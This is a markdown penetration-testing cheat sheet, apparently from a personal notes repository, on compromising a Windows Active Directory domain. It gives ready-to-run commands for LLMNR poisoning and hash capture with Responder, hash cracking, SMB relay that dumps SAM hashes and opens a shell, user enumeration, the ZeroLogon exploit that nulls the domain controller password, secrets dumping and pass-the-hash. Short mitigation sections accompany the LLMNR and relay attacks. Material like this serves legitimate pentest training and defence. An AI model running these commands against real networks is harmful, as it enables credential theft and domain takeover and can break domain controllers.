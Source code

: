 ```yaml
---
title: 3 - Windows Domain Exploitation
summary: Gaining Access step – a note for attacking Windows Domain.
description: Gaining Access step – a note for attacking Windows Domain.
---
```


# Resources

---

* [Pentesting Active Directory Mind Map - ODC](https://github.com/esidate/pentesting-active-directory/tree/main)
* [Top Five Ways I Got Domain Admin 2018 Edition - Adam Toscher](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

# LLMNR Attack

---

### RESPONDER

### Principle

![exploit-llmnr-principle.png](../../attachments/exploit-llmnr-principle.png)
Credit: TCM Security

### Hands On


 > 
 > **<font color=red>responder -l</font> tun0 <font color=red>-dw</font>**</br>
 > Capture NTLM Hashes when DNS error occurs.

![tool-responder-llmnr_hash_capture.png](../../attachments/tool-responder-llmnr_hash_capture.png)


 > 
 > **<font color=red>hashcat -a 0 -m 5600 </font>myHashes.txt <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack NetNTMLv2 hashes.

### Mitigation

* Disable LLMNR and NBT-NS
  * Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client > Multicast Name Resolution > OFF
  * Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced > WINS > NetBIOS over TCP/IP > Disable
* If this cannot be disabled
  * Network Access Control.
  * Enforce strong user password (over 14 characters) in order to make it harder to crack hashes.

Credit: TCM Security

# SMB Relay Attack

---

### IMPACKET NTMLRELAYX

### Principle

Relay captured Hashes without cracking them to a SMB Server.

### Requirements & Limitations

* SMB Signing must be disabled on the target.
* The user that is relayed has to be admin on the target.
* It is not possible to relay a user to the same machine.

### Scan for vulnerable hosts (SMB Signing disabled)


 > 
 > **<font color=red>nmap --script=smb2-security-mode.nse -p445</font> \[TARGET_IP\]**</br>
 > Scan for disabled SMB Signing.

![tool-nmap-smb_signing.png](../../attachments/tool-nmap-smb_signing.png)

### Hands on

#### Capture Hashes

Update Responder configuration to capture hashes but not respond.

 > 
 > **<font color=lightblue>/usr/share/responder/Responder.conf</font>**</br>

````
[Responder Core]

; Servers to start
SQL = On
#SMB = On # HERE #
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
SNMP = Off
````


 > 
 > **<font color=red>responder -l</font> tun0 <font color=red>-dw</font>**</br>
 > Capture NTLM Hashes when DNS error occurs.

![tool-responder-llmnr_hash_capture.png](../../attachments/tool-responder-llmnr_hash_capture.png)

#### Relay Attacks


 > 
 > **<font color=red>python3 /opt/impacket/examples/ntlmrelayx.py -tf </font>myTargets.txt <font color=red>-smb2support --no-multirelay</font>**</br>
 > Relay NTLM Hash and Dump Sam Hashes.

![tool-ntlmrelayx-smb_relay_dump_sam.png.png](../../attachments/tool-ntlmrelayx-smb_relay_dump_sam.png.png)

\** /!\ TO CHECK /!\ **

 > 
 > **<font color=red>python3 /opt/impacket/examples/ntlmrelayx.py -tf</font> myTargets.txt <font color=red>-smb2support --no-multirelay -i</font>**</br>
 > Relay NTLM Hash and start a Bind Shell.

![tool-ntmlrelayx-smb_relay_reverse_shell.png](../../attachments/tool-ntmlrelayx-smb_relay_reverse_shell.png)

 > 
 > **<font color=red>nc 127.0.0.1 11000</font>**
 > Connect to the shell.

### Mitigation

* Enable SMB Signing on all devices
  * Warning: May cause performance issues with file copies
* Disable NTML authentication on network
  * Warning: NTML is the backup solution when Kerberos don't work, NTML may be required by some applications.
* Limit high privilege accounts to specific tasks (e.g. Domain Admins only log when a Domain Admin access is required).
* Enforce Local admins restriction.

Credit: TCM Security

# Find Valid Users

---

### KERBRUTE (Brute Force)


 > 
 > **<font color=red>kerbrute -dc-ip</font> \[TARGET_DC_IP\] <font color=red>-domain</font> \[TARGET_DOMAIN\] <font color=red>-users </font>myUserList.txt <font color=red>-t</font> 10**</br>
 > Find valid users by testing all usernames in a list (`-t` is for thread).

---

### IMPACKET GETNUPUSERS (Users No Pre-Auth Required)


 > 
 > **<font color=red>python3 /opt/impacket/examples/GetNPUsers.py</font> \[TARGET_DOMAIN\]<font color=red>/</font>myUser <font color=red>-dc-ip</font> \[TARGET_DC_IP\] <font color=red>-no-pass</font>**</br>
 > Check for users that do not require Pre-Authentication.

# Exploit

---

### ZeroLogon Exploit (CVE-2020-1472)

### Warning

This exploit could destroy the Domain Controller if you don’t restore the password after the attack.

### Check if Vulnerable

**https://github.com/SecuraBV/CVE-2020-1472** 

 > 
 > **<font color=red>python3 zerologon_tester.py</font> myNetBIOSDCName \[TARGET_DC_IP\]**</br>
 > Check if target is vulnerable to CVE-2020-1472

### Hands On

#### Exploit

**https://github.com/Sq00ky/Zero-Logon-Exploit/blob/master/zeroLogon-NullPass.py** 

 > 
 > **<font color=red>python3 zeroLogon-NullPass.py </font>myNetBIOSDCName \[TARGET_DC_IP\]**</br>
 > Run the exploit: bypass authentication and change the password to a null value. 

#### Hash Dump


 > 
 > **<font color=red>python3 /opt/impacket/examples/secretsdump.py </font>myNetBIOSDCName<font color=red>\\$@</font>\[TARGET_DC_IP\] <font color=red>-no-pass</font>**</br>
 > Connect with empty password (after Zerologon exploit) and dump hashes. 

#### Pass the Hash


 > 
 > **<font color=red>evil-winrm -i</font> \[TARGET_IP\] <font color=red>-u</font> \[myUser\] <font color=red>-H </font>\[myUserNTHASH\]**</br>
 > Pass the Hash attack (NT Hash).

#### Restore the machine state

 > 
 > **<font color=red>python3 /opt/impacket/examples/secretsdump.py</font> Administrator<font color=red>@</font>\[TARGET_DC_IP\] <font color=red>-hashes</font> myAdminHash**</br>
 > Dump secrets, look for `plain_password_hex`.

**https://github.com/dirkjanm/CVE-2020-1472** 

 > 
 > **<font color=red>python3 restorepassword.py </font>DOMAIN<font color=red>/</font>myNetBIOSDCName<font color=red>@</font>myNetBIOSDCName <font color=red>-target-ip</font> \[TARGET_DC_IP\] <font color=red>-hexpass</font> myPlainPasswordHex**
 > Restore the password.
